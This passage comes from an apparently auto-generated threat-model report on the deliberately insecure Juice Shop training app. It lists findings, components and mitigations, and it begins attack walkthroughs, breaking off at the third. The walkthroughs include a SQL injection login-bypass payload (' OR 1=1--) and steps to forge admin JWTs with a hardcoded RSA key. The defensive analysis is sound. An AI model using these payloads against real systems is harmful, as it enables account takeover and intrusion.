| **3** | [C-01](#c-01) — Express REST API Backend | ❶ [M-016](#m-016) — Remove server-side evaluation of untrusted input | 🔴 [F-007](#f-007) — Remote Code Execution (`routes/userProfile.ts`) | Low |
| **4** | [C-01](#c-01) — Express REST API Backend | ❶ [M-022](#m-022) — Exclude role field from user registration body before model creation | 🔴 [F-029](#f-029) — Mass Assignment to role Field in User Registration (`server.ts`) | Low |
| **5** | [C-03](#c-03) — Data Persistence Layer | ❶ [M-018](#m-018) — Enforce server-side field allowlist before every Sequelize User write to exclude the role field | 🔴 [F-025](#f-025) — Mass-assignment of role field enables privilege escalation (`models/user.ts`) | Low |
| **6** | [C-03](#c-03) — Data Persistence Layer | ❶ [M-020](#m-020) — Hash passwords with a strong, salted algorithm | 🔴 [F-027](#f-027) — MD5 password hashing without salt (`models/user.ts`) | Medium |
| **7** | [C-04](#c-04) — File Upload Handler | ❶ [M-023](#m-023) — Remove server-side evaluation of untrusted input | 🔴 [F-030](#f-030) — Server-Side Template Injection (`routes/userProfile.ts`) | Medium |
| **8** | [C-05](#c-05) — B2B Order API | ❶ [M-021](#m-021) — Remove server-side evaluation of untrusted input | 🔴 [F-028](#f-028) — VM Sandbox Escape (`routes/b2bOrder.ts`) | Medium |
| **9** | [C-07](#c-07) — Authentication & Session Surface | ❶ [M-011](#m-011) — Use parameterized database queries | 🔴 [F-002](#f-002) — SQL Injection in login query (`routes/login.ts`) | Low |
| **10** | [C-07](#c-07) — Authentication & Session Surface | ❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store | 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery (`lib/insecurity.ts`) | Medium |
| **11** | [C-07](#c-07) — Authentication & Session Surface | ❶ [M-013](#m-013) — Enforce JWT signature and algorithm verification | 🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts`) | Medium |
| **12** | [C-02](#c-02) — Angular 20 SPA Frontend | ❷ [M-014](#m-014) — Eliminate derived passwords; use server-side OAuth token exchange without a password proxy | 🔴 [F-005](#f-005) — OAuth-Derived Predictable Password (`oauth.component.ts`) | High |
| **13** | [C-03](#c-03) — Data Persistence Layer | ❷ [M-019](#m-019) — Stop storing sensitive data in cleartext | 🔴 [F-026](#f-026) — Payment card number stored as unencrypted INTEGER (`models/card.ts`) | High |

*41 additional P1/P2 mitigations capped from the leader-board · 20 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="18%" style="width:18%"><col width="28%" style="width:28%"><col width="13%" style="width:13%"><col width="30%" style="width:30%"><col width="11%" style="width:11%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Gap</th><th>Mitigates</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:anywhere"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:anywhere"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Container base image<br/>SBOM generation<br/>Automated SCA scanning</td><td>✅ Adequate</td><td style="overflow-wrap:anywhere">-</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere"><strong>Hardened HTTP Stack</strong></td><td style="overflow-wrap:anywhere"><em>Browser-facing HTTP hardening - security headers, cookie flags, cross-origin policy, and abuse-protection limits.</em><br/>Security headers (HSTS, Referrer-Policy)</td><td>⚠️ Partial</td><td style="overflow-wrap:anywhere">Bypassed by 1 High finding(s) of the kind this cluster is supposed to prevent - e.g.<br/>🟠 <a href="#f-070">F-070</a> — Server-Side Request Forgery — <code>routes/profileImageUrlUpload.ts:24</code>.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.



**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-002](#f-002) — SQL Injection in login query — `routes/login.ts:34` SQL injection in login query · 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — `lib/insecurity.ts:23` Hardcoded RSA private key · 🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54` Insecure JWT verification · 🔴 [F-007](#f-007) — Remote Code Execution — `routes/userProfile.ts:62` Remote code execution via eval · 🔴 [F-028](#f-028) — VM Sandbox Escape — `routes/b2bOrder.ts:23` VM sandbox escape via B2B endpoint · 🔴 [F-030](#f-030) — Server-Side Template Injection — `routes/userProfile.ts:62` Server-side template injection · 🔴 [F-008](#f-008) — Insecure Direct Object Reference — `routes/address.ts:11` IDOR address lookup · 🔴 [F-016](#f-016) — Insecure Direct Object Reference — `routes/order.ts:142` IDOR order lookup · 🔴 [F-019](#f-019) — Insecure Direct Object Reference — `routes/payment.ts:21` IDOR payment lookup · 🔴 [F-022](#f-022) — Insecure Direct Object Reference — `routes/wallet.ts:12` IDOR wallet lookup · 🔴 [F-025](#f-025) — Mass-assignment of role field enables privilege escalation — `models/user.ts:80` Mass assignment role escalation · 🔴 [F-029](#f-029) — Mass Assignment to role Field in User Registration — `server.ts:419` Mass assignment in user registration · 🔴 [F-005](#f-005) — OAuth-Derived Predictable Password — `oauth.component.ts:30` OAuth predictable password derivation · 🔴 [F-026](#f-026) — Payment card number stored as unencrypted INTEGER — `models/card.ts:39` Payment card stored unencrypted · 🔴 [F-006](#f-006) — SQL Injection in Product Search Route — `routes/search.ts:23` SQL injection in product search · 🔴 [F-027](#f-027) — MD5 password hashing without salt — `models/user.ts:77` `MD5` password hashing without salt

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-shop
**Runtime:** Node\.js 20 - 24

### Scope

This threat model covers 8 components of juice-shop: **Express REST API Backend**, **Angular 20 SPA Frontend**, **Data Persistence Layer**, **File Upload Handler**, **B2B Order API**, **CI/CD Pipeline**, **Authentication & Session Surface**, **Real-time WebSocket Channel**.

All 8 modeled components received full STRIDE threat analysis.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).



**Key takeaway:** Every actor in the context interacts with juice-shop through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



**Key takeaway:** The system decomposes into 1 client, 6 application and 1 data unit(s); Express REST API Backend carries the most Critical findings (20) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** Express REST API Backend concentrates the most findings (36 of 92 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats |
|----|----------------------|-----------|--------------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="backend-api"></a><span style="white-space:nowrap">C-01</span> | Express REST API Backend | application | `server.ts`<br/>`app.ts`<br/>`routes/**`<br/>`lib/**`<br/>`models/**` | 🔴 [F-006](#f-006) — SQL Injection in Product Search Route (`routes/search.ts:23`)<br/>🔴 [F-007](#f-007) — Remote Code Execution (`routes/userProfile.ts:62`)<br/>🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-009](#f-009) — Insecure Direct Object Reference (`routes/address.ts:18`)<br/>🔴 [F-010](#f-010) — Insecure Direct Object Reference (`routes/address.ts:29`)<br/>🔴 [F-011](#f-011) — Insecure Direct Object Reference (`routes/dataExport.ts:26`)<br/>🔴 [F-012](#f-012) — Insecure Direct Object Reference (`routes/deluxe.ts:25`)<br/>🔴 [F-013](#f-013) — Insecure Direct Object Reference (`routes/deluxe.ts:30`)<br/>🔴 [F-014](#f-014) — Insecure Direct Object Reference (`routes/deluxe.ts:35`)<br/>🔴 [F-015](#f-015) — Insecure Direct Object Reference (`routes/memory.ts:15`)<br/>🔴 [F-016](#f-016) — Insecure Direct Object Reference (`routes/order.ts:142`)<br/>🔴 [F-017](#f-017) — Insecure Direct Object Reference (`routes/order.ts:144`)<br/>🔴 [F-018](#f-018) — Insecure Direct Object Reference (`routes/order.ts:151`)<br/>🔴 [F-019](#f-019) — Insecure Direct Object Reference (`routes/payment.ts:21`)<br/>🔴 [F-020](#f-020) — Insecure Direct Object Reference (`routes/payment.ts:41`)<br/>🔴 [F-021](#f-021) — Insecure Direct Object Reference (`routes/payment.ts:70`)<br/>🔴 [F-022](#f-022) — Insecure Direct Object Reference (`routes/wallet.ts:12`)<br/>🔴 [F-023](#f-023) — Insecure Direct Object Reference (`routes/wallet.ts:24`)<br/>🔴 [F-024](#f-024) — Insecure Direct Object Reference (`routes/wallet.ts:27`)<br/>🔴 [F-029](#f-029) — Mass Assignment to role Field in User Registration (`server.ts:419`)<br/>🟠 [F-031](#f-031) — Rate Limit Bypass (`server.ts:346`)<br/>🟠 [F-037](#f-037) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)<br/>🟠 [F-038](#f-038) — Insecure Direct Object Reference (`routes/basketItems.ts:68`)<br/>🟠 [F-039](#f-039) — Insecure Direct Object Reference (`routes/delivery.ts:34`)<br/>🟠 [F-040](#f-040) — Insecure Direct Object Reference (`routes/orderHistory.ts:36`)<br/>🟠 [F-048](#f-048) — Insufficient Security Logging (`server.ts:338`)<br/>🟠 [F-051](#f-051) — Sensitive Information Exposure (`server.ts:208`)<br/>🟠 [F-052](#f-052) — Unauthenticated Access Log and FTP Directory Exposed to Internet (`server.ts:269`)<br/>🔴 [F-053](#f-053) — Use of Hard-coded Cryptographic Key (`lib/insecurity.ts:44`)<br/>🟠 [F-061](#f-061) — Missing Anti-Automation / Rate Limiting (`server.ts:594`)<br/>🟠 [F-063](#f-063) — No Rate Limiting on Login Endpoint Enables Credential Stuffing (`server.ts:343`)<br/>🟠 [F-067](#f-067) — Open Redirect Allowlist Bypass (`lib/insecurity.ts:138`)<br/>🔴 [F-068](#f-068) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)<br/>🔴 [F-069](#f-069) — Authorization Check Disabled on Product Update Route (`server.ts:369`)<br/>🟠 [F-070](#f-070) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)<br/>🔴 [F-074](#f-074) — Missing Authentication on `/file-upload` Endpoint (`server.ts:309`) |
| <a id="c-02"></a><a id="frontend-spa"></a><span style="white-space:nowrap">C-02</span> | Angular 20 SPA Frontend | client | `frontend/src/**`<br/>`frontend/package.json` | 🟠 [F-001](#f-001) — Insecure Storage of Sensitive Information (`last-login-ip.component.ts:34`)<br/>🔴 [F-005](#f-005) — OAuth-Derived Predictable Password (`oauth.component.ts:30`)<br/>🟠 [F-033](#f-033) — OAuth Implicit Flow with No State Validation (`app.routing.ts:262`)<br/>🔴 [F-044](#f-044) — Stored XSS (`about.component.ts:119`)<br/>🔴 [F-045](#f-045) — Stored XSS (`last-login-ip.component.ts:39`)<br/>🟠 [F-076](#f-076) — Client-Side Enforcement of Server-Side Security (`app.guard.ts:52`)<br/>🔴 [F-078](#f-078) — DOM-based XSS (`index.ts:126`)<br/>🟡 [F-088](#f-088) — Client-Side Data Export Rate Limit Bypass (`data-export.component.ts:48`) |
| <a id="c-03"></a><a id="data-persistence"></a><span style="white-space:nowrap">C-03</span> | Data Persistence Layer | data | `models/**`<br/>`data/static/**` | 🔴 [F-025](#f-025) — Mass-assignment of role field enables privilege escalation (`models/user.ts:80`)<br/>🔴 [F-026](#f-026) — Payment card number stored as unencrypted INTEGER (`models/card.ts:39`)<br/>🔴 [F-027](#f-027) — MD5 password hashing without salt (`models/user.ts:77`)<br/>🔴 [F-032](#f-032) — Weak Password Hashing (`models/securityAnswer.ts:46`)<br/>🟠 [F-058](#f-058) — TOTP secret stored in plaintext (`models/user.ts:113`)<br/>🟠 [F-072](#f-072) — Insecure Direct Object Reference (`models/relations.ts:22`)<br/>🟡 [F-081](#f-081) — No audit log table for security-relevant mutations (`models/index.ts:30`)<br/>🟡 [F-087](#f-087) — No query timeout in Sequelize SQLite configuration (`models/index.ts:30`) |
| <a id="c-04"></a><a id="file-upload-service"></a><span style="white-space:nowrap">C-04</span> | File Upload Handler | application | `routes/fileUpload.ts`<br/>`routes/userProfile.ts` | 🔴 [F-030](#f-030) — Server-Side Template Injection (`routes/userProfile.ts:62`)<br/>🟠 [F-049](#f-049) — No Audit Logging for File Upload Events (`routes/fileUpload.ts:27`)<br/>🟠 [F-059](#f-059) — XXE File Read (`routes/fileUpload.ts:83`)<br/>🟠 [F-064](#f-064) — Unauthenticated Parser Amplification DoS (`routes/fileUpload.ts:83`)<br/>🟠 [F-073](#f-073) — ZIP Path Traversal (`routes/fileUpload.ts:44`)<br/>🔴 [F-075](#f-075) — Unsafe YAML Deserialization (`routes/fileUpload.ts:117`) |
| <a id="c-05"></a><a id="b2b-api"></a><span style="white-space:nowrap">C-05</span> | B2B Order API | application | `routes/b2bOrder.ts`<br/>`swagger.yml` | 🔴 [F-028](#f-028) — VM Sandbox Escape (`routes/b2bOrder.ts:23`)<br/>🟠 [F-062](#f-062) — Unauthenticated CPU Exhaustion (`routes/b2bOrder.ts:23`)<br/>🟡 [F-079](#f-079) — Missing Audit Logging for B2B Order Submissions (`routes/b2bOrder.ts:24`)<br/>🟡 [F-082](#f-082) — Raw VM Error Propagation to API Response (`routes/b2bOrder.ts:33`) |
| <a id="c-06"></a><a id="ci-cd-pipeline"></a><span style="white-space:nowrap">C-06</span> | CI/CD Pipeline | application | `.github/workflows/**`<br/>`Dockerfile`<br/>`.npmrc`<br/>`package.json` | 🟠 [F-041](#f-041) — Root-Privilege Postinstall Execution in Docker Build — Dockerfile:5<br/>🟠 [F-042](#f-042) — Lockfile Disabled Enabling Dependency Confusion<br/>🟠 [F-043](#f-043) — Mutable Action Tag Supply Chain Injection (`codeql-analysis.yml:23`)<br/>🟠 [F-054](#f-054) — Incorrect Permission Assignment (`codeql-analysis.yml:1`)<br/>🟠 [F-055](#f-055) — Third-party GitHub Actions not pinned to commit SHA (`codeql-analysis.yml:23`)<br/>🟠 [F-056](#f-056) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-057](#f-057) — On not committed on absent (`package-lock.json`)<br/>🟠 [F-071](#f-071) — GITHUB_TOKEN Write-All Permission on 10 of 13 Workflows (`ci.yml:1`)<br/>🟡 [F-077](#f-077) — Archived Action with Mutable Tag in Release Workflow (`release.yml:66`)<br/>🟡 [F-080](#f-080) — Released Docker Images Lack SLSA Provenance Attestation (`release.yml:50`)<br/>🔴 [F-083](#f-083) — Improper Verification of Cryptographic Signature (`release.yml:1`)<br/>🟡 [F-084](#f-084) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5<br/>🟡 [F-085](#f-085) — Long-Lived Administrative Secret in Workflow Environment (`pr-compliance.yml:438`)<br/>🟡 [F-086](#f-086) — Dependabot Ecosystem Coverage Incomplete (.github/dependabot.yml)<br/>🟡 [F-089](#f-089) — Improper Access Control (`pr-compliance.yml:4`)<br/>🟢 [F-091](#f-091) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-092](#f-092) — No Renovate config detected on absent (`renovate.json`) |
| <a id="c-07"></a><a id="auth"></a><span style="white-space:nowrap">C-07</span> | Authentication & Session Surface | application | `lib/insecurity.ts`<br/>`lib/startup/registerWebsocketEvents.ts`<br/>`routes/2fa.ts`<br/>`routes/authenticatedUsers.ts`<br/>`routes/login.ts` | 🔴 [F-002](#f-002) — SQL Injection in login query (`routes/login.ts:34`)<br/>🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery (`lib/insecurity.ts:23`)<br/>🔴 [F-004](#f-004) — Insecure JWT Verification (`lib/insecurity.ts:54`)<br/>🟠 [F-035](#f-035) — Weak Password Recovery Mechanism (`routes/resetPassword.ts:41`)<br/>🟠 [F-036](#f-036) — MD5 password hashing enables offline credential recovery (`lib/insecurity.ts:43`)<br/>🟠 [F-046](#f-046) — Log Injection (`routes/saveLoginIp.ts:18`)<br/>🟠 [F-047](#f-047) — Insufficient Security Logging (`routes/login.ts:18`)<br/>🟠 [F-050](#f-050) — JWT token cookie set without HttpOnly or Secure flags (`lib/insecurity.ts:195`)<br/>🟠 [F-066](#f-066) — JWT role claim elevation (`lib/insecurity.ts:54`) |
| <a id="c-08"></a><a id="realtime-channel"></a><span style="white-space:nowrap">C-08</span> | Real-time WebSocket Channel | application | `lib/challengeUtils.ts`<br/>`lib/startup/registerWebsocketEvents.ts` | 🔴 [F-034](#f-034) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-060](#f-060) — CTF Flag Broadcast to All Connected Sockets (`lib/challengeUtils.ts:71`)<br/>🟠 [F-065](#f-065) — Uncontrolled Resource Consumption (`registerWebsocketEvents.ts:20`)<br/>🟢 [F-090](#f-090) — No Actor Attribution on Socket Event Handlers (`registerWebsocketEvents.ts:34`) |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 SQL Injection in login query — routes/login.ts:34

**Source:** 🔴 [F-002](#f-002) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Spoofing. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. An unauthenticated attacker POSTs to `/rest/user/login` with a crafted email value such as `' OR 1=1--`.
2. The raw SQL query at `routes/login.ts:34` concatenates `req.body.email` directly into the SELECT statement: `SELECT * FROM Users WHERE email = '${req.body.email}'`.
3. The injected payload short-circuits the WHERE clause, returning the first user row (typically admin).

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-011](#m-011) (Use parameterized database queries) lands, 🔴 [F-002](#f-002) — SQL Injection in login query — `routes/login.ts:34` is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-011](#m-011) (Use parameterized database queries)

### 3.2 Hardcoded RSA private key enables arbitrary JWT forgery — l…

**Source:** 🔴 [F-003](#f-003) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. The 1024-bit RSA private key is embedded as a string literal at `lib/insecurity.ts:23` and committed to a public GitHub repository.
2. Any actor who reads the source - including automated secret scanners, forks, or cached git history - possesses the private key.
3. Using this key they can call `jwt.sign()` with any payload (e.g. { role: 'admin', email: 'attacker@`evil.com`' }) and algorithm `RS256`, producing a token that passes express-jwt validation at every `isAuthorized()` middleware.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-012](#m-012) (Move cryptographic keys to a managed secret store) lands, 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-012](#m-012) (Move cryptographic keys to a managed secret store)

### 3.3 Insecure JWT Verification — lib/insecurity.ts:54

**Source:** 🔴 [F-004](#f-004) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

